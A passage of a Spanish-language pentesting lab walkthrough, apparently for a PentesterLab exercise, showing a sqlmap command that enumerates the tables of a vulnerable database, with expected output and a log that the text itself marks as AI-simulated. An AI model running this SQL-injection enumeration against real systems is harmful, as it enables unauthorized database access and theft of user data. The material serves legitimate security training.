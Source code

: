 🔍 Nota aclaratoria: la salida anterior está marcada explícitamente como "Generada con IA". En una ejecución real, los tiempos, los prefijos de log y el orden pueden variar. Use esta simulación para comprender la información que sqlmap entrega al enumerar bases de datos.

PASO 7: Comando 4 - Enumerar Tablas
Objetivo: Listar todas las tablas de la base de datos exercises.

```bash
sqlmap -u "http://[IP_PENTESTERLAB]/sqli/example1.php?id=1" -D exercises --tables
```

💡 Explicación:

- -D exercises: Especifica la base de datos objetivo
- --tables: Enumera las tablas de esa base de datos

📊 Salida esperada:
[00:52:30] [INFO] fetching tables for database: 'exercises'
[00:52:30] [INFO] used SQL query returns 2 entries
[00:52:31] [INFO] retrieved: photos
[00:52:31] [INFO] retrieved: users

Database: exercises
[2 tables]
+---------+
| photos  |
| users   |
+---------+
🔍 Análisis:
Tabla Contenido Probable Sensibilidad
photos Información de imágenes (id, nombre, ruta) 🟡 Media
users Información de usuarios (username, password, email) 🔴 Alta
📝 Documentar:

- Total de tablas: 2
- Tabla crítica: users

**📊 Simulación de la Práctica — Salida Generada con IA (NO es una ejecución real)**

La siguiente salida es una simulación generada con IA que muestra lo que `sqlmap -D exercises --tables` podría devolver al enumerar tablas en la base de datos `exercises`. Está incluida únicamente con fines didácticos y no proviene de una ejecución real.

```text
[00:52:28] [INFO] testing connection to the target URL
[00:52:29] [INFO] testing if the target URL content is stable
[00:52:30] [INFO] target URL content is stable
[00:52:30] [INFO] testing if GET parameter 'id' is dynamic
[00:52:30] [INFO] GET parameter 'id' appears to be dynamic
[00:52:30] [INFO] testing for SQL injection on GET parameter 'id'

[00:52:30] [INFO] fetching tables for database: 'exercises'
[00:52:30] [INFO] used SQL query returns 2 entries
[00:52:31] [INFO] retrieved: photos
[00:52:31] [INFO] retrieved: users

Database: exercises
[2 tables]
+---------+
| photos  |
| users   |
+---------+

[*] ending @ 00:52:31
```
